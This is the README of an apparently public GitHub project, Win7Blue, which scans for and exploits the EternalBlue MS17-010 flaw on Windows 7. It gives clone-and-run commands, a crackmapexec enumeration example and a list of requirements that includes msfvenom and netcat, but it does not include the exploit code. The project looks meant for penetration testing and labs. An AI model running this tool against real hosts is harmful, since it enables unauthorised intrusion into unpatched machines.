 # Win7Blue

**Scan & Exploit - EternalBlue MS17-010 - Windows 7 x86 & x64**

>updated code in 2022 for Python3

![](/screenshots/001.png)

- <kbd>Scan</kbd>

![](/screenshots/002.png)

- <kbd>Exploit</kbd>

![](/screenshots/003.png)

![](/screenshots/004.png)

- <kbd>Use</kbd>

```cmd
root@kali:~# cd ~
root@kali:~# git clone https://github.com/d4t4s3c/Win7Blue.git
root@kali:~# cd Win7Blue
root@kali:~# chmod +x Win7Blue.sh
root@kali:~# ./Win7BLue.sh
```

- <kbd>Enum arch (x86 / x64)</kbd>

```cmd
root@kali:~# crackmapexec smb <target>
SMB   192.168.1.XXX   445   TESTING   [*] Windows 7 Professional 7600 x64 (name:TESTING) (domain:TESTING) (signing:False) (SMBv1:True)
```

- <kbd>Tested On:</kbd>

  * Kali
  * Parrot
  * Debian
  * Ubuntu
  
- <kbd>Requirements:</kbd>

   * Python3
   * Python2.7
   * Msfvenom
   * Impacket
   * Netcat

---
